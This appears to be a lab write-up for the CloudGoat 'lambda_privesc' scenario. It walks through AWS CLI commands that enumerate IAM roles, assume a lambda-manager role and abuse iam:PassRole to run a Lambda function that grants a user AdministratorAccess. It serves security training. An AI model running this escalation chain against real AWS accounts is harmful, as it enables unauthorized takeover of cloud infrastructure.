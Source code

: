 # Lambda Privilege Escalation

## Goal
Achieve full administrator privileges through assuming a lambda role.

## Installation
```
./cloudgoat.py create lambda_privesc
```
## Assume Chris
1. Add the profile
```
aws configure --profile chris
Enter secret key, access key, region and output
```
2. Set the default role to avoid --profile
```
unset AWS_ACCESS_KEY_ID
unset AWS_SECRET_ACCESS_KEY
export AWS_PROFILE=chris
aws sts get-caller-identity
```

## Enumerate Roles
1. List Roles
```
aws iam list roles
{
    "Path": "/",
    "RoleName": "<role name>",
    "RoleId": "<role id>",
    "Arn": "arn:aws:iam::<account id>:role/<role name>",
    "CreateDate": "2023-04-20T22:59:53+00:00",
    "AssumeRolePolicyDocument": {
        "Version": "2012-10-17",
        "Statement": [
            {
                "Sid": "",
                "Effect": "Allow",
                "Principal": {
                    "Service": "lambda.amazonaws.com"
                },
                "Action": "sts:AssumeRole"
            }
        ]
    },
    "MaxSessionDuration": 3600
}
{
    "Path": "/",
    "RoleName": "<role name>",
    "RoleId": "<role id>",
    "Arn": "arn:aws:iam::<account id>:role/<role name>",
    "CreateDate": "2023-04-20T23:00:03+00:00",
    "AssumeRolePolicyDocument": {
        "Version": "2012-10-17",
        "Statement": [
            {
                "Sid": "",
                "Effect": "Allow",
                "Principal": {
                    "AWS": "arn:aws:iam::<account id>:user/<user name>"
                },
                "Action": "sts:AssumeRole"
            }
        ]
    },
    "MaxSessionDuration": 3600
}
```
2. Identify permissions in role
```
aws iam list-attached-role-policies --role-name <lambda manager role name>

aws iam get-policy-version --policy-arn <policy arn> --output json --version-id v1
{
    "PolicyVersion": {
        "Document": {
            "Statement": [
                {
                    "Action": [
                        "lambda:*",
                        "iam:PassRole"
                    ],
                    "Effect": "Allow",
                    "Resource": "*",
                    "Sid": "lambdaManager"
                }
            ],
            "Version": "2012-10-17"
        },
        "VersionId": "v1",
        "IsDefaultVersion": true,
        "CreateDate": "2023-04-20T22:59:53+00:00"
    }
}
```
From the above permission, we can confirm that the manager is able to perform any lambda actions and a pass role can be put to the lambda function.

## Assume Lambda Manager Role
1. Assume the lambda manager role
```
aws sts assume-role --role-arn <manager role arn> --role-session-name manager --output json
```
2. Add the profile
```
aws configure --profile manager
nano ~/.aws/credentials
<Add aws_session_token={session token for manager}>
```
## Enumerate debug role permissions
1. Enumerate permissions
```
aws iam list-attached-role-policies --role-name <debug role name>
ATTACHEDPOLICIES        arn:aws:iam::aws:policy/AdministratorAccess     AdministratorAccess
```
Thus, we can create a lambda function passing the debug role with full administration access.

## Craft Lambda Function
1. Copy lambda.py and replace corresponding variables. The lambda function should add the administrator access permission to chris.
2. Zip the file 
3. Create the function
```
aws lambda create-function --function-name lambda_privilege_escalate --role <debug role arn> --runtime python3.9 --profile manager --handler lambda.lambda_handler --zip-file <path to lambda.py.zip>
```
4. Execute function
```
aws lambda invoke --function-name lambda_privilege_escalate output.txt --profile manager
```
5. Check Permissions for Chris
```
aws iam list-attached-user-policies --user-name <chris user name>
...
ATTACHEDPOLICIES        arn:aws:iam::aws:policy/AdministratorAccess     AdministratorAccess <- This policy is attached!
```


## Troubleshooting
### Destroy "chris-XX need to detach policies in order to be deleted"
Go into the IAM console of the account and remove administrator access. Access key is already deleted so the cli commands will not work.

## References 
https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/scenarios/lambda_privesc/README.md